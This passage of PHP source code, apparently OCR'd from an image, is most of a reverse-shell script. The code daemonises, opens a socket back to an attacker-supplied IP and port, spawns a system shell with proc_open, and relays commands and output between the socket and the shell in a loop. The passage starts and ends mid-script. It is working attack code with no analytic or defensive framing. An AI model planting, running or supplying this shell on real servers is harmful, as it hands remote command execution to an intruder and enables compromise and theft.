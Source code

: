 ```php
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
```